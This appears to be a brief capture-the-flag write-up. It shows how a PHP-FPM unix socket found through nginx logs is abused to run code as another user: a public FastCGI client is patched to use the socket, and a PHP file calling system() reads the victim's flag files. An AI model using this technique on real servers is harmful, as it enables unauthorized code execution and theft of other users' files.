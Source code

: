 step 1 was looking for wtf is on server, checking nginx logs, discovering that unix socket
then, Step 2:

    git clone https://github.com/wuyunfeng/Python-FastCGI-Client.git

i modified it to use unix socket not internet socket
    -        self.sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    +        self.sock = socket.socket(socket.AF_UNIX, socket.SOCK_STREAM)
    -            self.sock.connect((self.host, int(self.port)))
    +            self.sock.connect("/var/run/php-fpm.sock")

then i put various php files in /tmp and executed them as webuser by sending them to this socket

    $ cat /tmp/example2.php
    <?php
    system("cat /home/webuser/*.flag");
    echo $homepage;
    ?>
    elf2207@grot0:~/Python-FastCGI-Client$ python fcgi.py http://127.0.0.1:9000/example2.php /tmp/ ""

and that's it
